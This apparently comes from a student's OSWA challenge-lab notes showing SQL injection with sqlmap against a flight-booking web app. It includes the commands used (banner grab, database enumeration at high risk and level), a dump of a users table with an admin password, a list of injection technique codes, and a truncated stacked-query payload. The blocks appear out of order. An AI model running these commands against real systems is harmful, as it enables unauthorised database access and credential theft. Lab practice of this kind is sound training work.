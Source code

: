 ```bash
Database: piano_protocol
Table: users
[1 entry]
+----------+-------------------+
| username | password          |
+----------+-------------------+
| admin    | djj28hah*dhk2hd1% |
+----------+-------------------+
[04:32:09] [INFO] table 'piano_protocol.users' dumped to CSV file '/root/.local/share/sqlmap/output/piano/dump/piano_protocol/users.csv'
[04:32:09] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/piano'
[04:32:09] [WARNING] your sqlmap version is outdated
```
`sqlmap` command to identify the database - `--batch` to continue on the prompts
```bash
┌──(root💀gobots)-[26Nov2024 17:05:45]-[/home/…/SUT/OSWA/challenge_labs/screamin_firehawk]
└─# sqlmap -r editFlight-req --banner --batch
[17:04:52] [INFO] the back-end DBMS is PostgreSQL
[17:04:52] [INFO] fetching banner
[17:04:52] [INFO] retrieved: 
[16:25:21] [INFO] the back-end DBMS is PostgreSQL
[16:25:21] [INFO] fetching banner
[16:25:21] [WARNING] time-based comparison requires larger statistical model, please wait.............................. (done)                                                                            
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] Y
[16:25:30] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
[16:25:41] [INFO] adjusting time delay to 1 second due to good response times
PostgreSQL 15.2 (Debian 15.2-1.pgdg110+1) on x86_64-pc-linux-gnu, compiled by gcc (Debian 10.2.1-6) 10.2.1 20210110, 64-bit
web server operating system: Linux Debian
web application technology: PHP 7.3.33, Apache 2.4.52

```
now we have the `dbs` time to chase down the `database` names, because now we know the technique is `stacked queries` we can add that technique only to make `sqlmap go faster`
- we now have the `public` database
- different `technique` methods 
- **B**: Boolean-based blind
- **E**: Error-based
- **U**: Union query-based
- **S**: Stacked queries
- **T**: Time-based blind
- **Q**: Inline queries
```bash
sqlmap -r postpost_req.txt --batch --risk=3 --level=5 --dbms=PostgreSQL --dbs
---                                                                                                                                                                                                        
Parameter: MULTIPART passengerCount ((custom) POST)                                                                                        
    Type: stacked queries                                                                                                                                 
    Title: PostgreSQL > 8.1 stacked queries (comment)                                                                                                                                                      
    Payload: ------WebKitFormBoundaryAKOLfA1vBSRnimSp                                                                                                                                                      
Content-Disposition: form-data; name="_token"    

[17:36:33] [INFO] fetching current database
```